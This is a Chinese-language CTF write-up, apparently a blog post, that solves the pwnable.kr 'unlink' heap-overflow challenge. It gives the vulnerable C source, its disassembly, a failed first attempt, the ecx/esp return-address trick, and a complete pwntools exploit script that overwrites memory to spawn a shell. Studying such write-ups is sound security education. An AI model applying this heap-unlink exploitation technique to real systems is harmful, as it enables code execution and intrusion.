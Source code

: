 ```yaml
---
layout:     post
title:      "pwnable.kr之unlink"
subtitle:   " 堆还是栈？ "
date:       2018-07-21 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```


>题目地址：[http://pwnable.kr/play.php](http://pwnable.kr/play.php)

>连接  ssh unlink@pwnable.kr -p2222 (pw: guest)

## 0x01 程序分析

它直接给出了源代码unlink.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);
         
        // exploit this unlink!
        unlink(B);
        return 0;
}

```


可以看出这段代码模仿了堆的一些实现,模拟的 Unlink 堆溢出漏洞。最后打印出A变量栈中地址和heap指向分配的mem地址,让你get shell.

main函数汇编代码如下：

```nasm
.text:0804852F ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:0804852F                 public main
.text:0804852F main            proc near               ; DATA XREF: _start+17↑o
.text:0804852F
.text:0804852F var_14          = dword ptr -14h
.text:0804852F var_10          = dword ptr -10h
.text:0804852F var_C           = dword ptr -0Ch
.text:0804852F var_4           = dword ptr -4
.text:0804852F argc            = dword ptr  8
.text:0804852F argv            = dword ptr  0Ch
.text:0804852F envp            = dword ptr  10h
.text:0804852F
.text:0804852F ; __unwind {
.text:0804852F                 lea     ecx, [esp+4]
.text:08048533                 and     esp, 0FFFFFFF0h
.text:08048536                 push    dword ptr [ecx-4]
.text:08048539                 push    ebp
.text:0804853A                 mov     ebp, esp
.text:0804853C                 push    ecx
.text:0804853D                 sub     esp, 14h
.text:08048540                 sub     esp, 0Ch
.text:08048543                 push    400h            ; size
.text:08048548                 call    _malloc
.text:0804854D                 add     esp, 10h
.text:08048550                 sub     esp, 0Ch
.text:08048553                 push    10h             ; size
.text:08048555                 call    _malloc
.text:0804855A                 add     esp, 10h
.text:0804855D                 mov     [ebp+var_14], eax
.text:08048560                 sub     esp, 0Ch
.text:08048563                 push    10h             ; size
.text:08048565                 call    _malloc
.text:0804856A                 add     esp, 10h
.text:0804856D                 mov     [ebp+var_C], eax
.text:08048570                 sub     esp, 0Ch
.text:08048573                 push    10h             ; size
.text:08048575                 call    _malloc
.text:0804857A                 add     esp, 10h
.text:0804857D                 mov     [ebp+var_10], eax
.text:08048580                 mov     eax, [ebp+var_14]
.text:08048583                 mov     edx, [ebp+var_C]
.text:08048586                 mov     [eax], edx
.text:08048588                 mov     edx, [ebp+var_14]
.text:0804858B                 mov     eax, [ebp+var_C]
.text:0804858E                 mov     [eax+4], edx
.text:08048591                 mov     eax, [ebp+var_C]
.text:08048594                 mov     edx, [ebp+var_10]
.text:08048597                 mov     [eax], edx
.text:08048599                 mov     eax, [ebp+var_10]
.text:0804859C                 mov     edx, [ebp+var_C]
.text:0804859F                 mov     [eax+4], edx
.text:080485A2                 sub     esp, 8
.text:080485A5                 lea     eax, [ebp+var_14]
.text:080485A8                 push    eax
.text:080485A9                 push    offset format   ; "here is stack address leak: %p\n"
.text:080485AE                 call    _printf
.text:080485B3                 add     esp, 10h
.text:080485B6                 mov     eax, [ebp+var_14]
.text:080485B9                 sub     esp, 8
.text:080485BC                 push    eax
.text:080485BD                 push    offset aHereIsHeapAddr ; "here is heap address leak: %p\n"
.text:080485C2                 call    _printf
.text:080485C7                 add     esp, 10h
.text:080485CA                 sub     esp, 0Ch
.text:080485CD                 push    offset s        ; "now that you have leaks, get shell!"
.text:080485D2                 call    _puts
.text:080485D7                 add     esp, 10h
.text:080485DA                 mov     eax, [ebp+var_14]
.text:080485DD                 add     eax, 8
.text:080485E0                 sub     esp, 0Ch
.text:080485E3                 push    eax             ; s
.text:080485E4                 call    _gets
.text:080485E9                 add     esp, 10h
.text:080485EC                 sub     esp, 0Ch
.text:080485EF                 push    [ebp+var_C]
.text:080485F2                 call    unlink
.text:080485F7                 add     esp, 10h
.text:080485FA                 mov     eax, 0
.text:080485FF                 mov     ecx, [ebp-4]
.text:08048602                 leave
.text:08048603                 lea     esp, [ecx-4]
.text:08048606                 retn
.text:08048606 ; } // starts at 804852F
.text:08048606 main            endp

```

## 0x01 漏洞分析之折腾

明显程序在 gets(A->buf) 处有堆溢出，一开始我走偏了，狠狠折腾了一番。我的思路是他泄露了&A即栈地址，根据栈地址能算出ret时esp指向的栈顶地址，这个偏移是不会随着系统的aslr变化的。所以我找出了ret 时esp相对于&A的偏移 0x28 。知道了 ret 时的栈顶有什么用呢？ 只要用gets伪造好数据，调用unlink函数的时候就可以替换地址，我要做的就是将 B堆空间的fd替换成ret-4地址，bk替换成shell函数地址，payload如下：

	payload="a"*8+p32(0)+p32(0x19)+p32(ret-4)+p32(shell_addr)

这样unlink后

	*(ret-4+4)=*(ret)=栈顶内容=shell_addr 
	*(shell_addr)=ret-4

这样当程序执行到main函数ret的时候，就能成功返回到我的shell地址，

我本以为这样就能成功拿shell，结果我忽略了一个问题。那就是*(shell_addr)=ret-4 这个地方已经破坏了shell函数的代码段  /(ㄒoㄒ)/  失败告终。


## 0x02 再次分析

后来发现main函数结尾那里，

```nasm
.text:080485FF                 mov     ecx, [ebp-4]
.text:08048602                 leave
.text:08048603                 lea     esp, [ecx-4]
.text:08048606                 retn
```

会将**[ecx-4]**写入**esp**，只要我们可控制 **ecx**内容就能控制返回地址。再看上面有**mov  ecx,[ebp-4]** 这样一段代码，只有我们可以控制**[ebp-4]**的内容就能控制**ecx**内容。

经调试发现**ebp-4=&A + 0x10** 代码有两次取地址内容，根据泄露的A的heap地址 ， heap地址下面（高处）即是gets()输入的内存空间，所以我们又构造 **heap+12=shell_addr+4**

这样我们就将（shell的地址 + 4）写入（ebp-4的内存中）也就是将 A+12 的值写入 &A + 0x10的内存中，返回时便控制了eip。

## 0x03 完整exp

```python
from pwn import *
context(os='linux', log_level='debug')
p=process("./unlink")
shell_addr=0x80484eb
stack_addr=p.recvline()
stack_addr=stack_addr.split(": 0x")[1][:-1]
stack_addr=int(stack_addr,16)

heap_addr=p.recvline()
heap_addr=heap_addr.split(": 0x")[1][:-1]
heap_addr=int(heap_addr,16)

p.recvuntil("get shell!\n")
payload=p32(shell_addr)+"a"*12+p32(heap_addr+12)+p32(stack_addr+16)
p.sendline(payload)
p.interactive()
```

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/pwnable.kr%E4%B9%8Bunlink)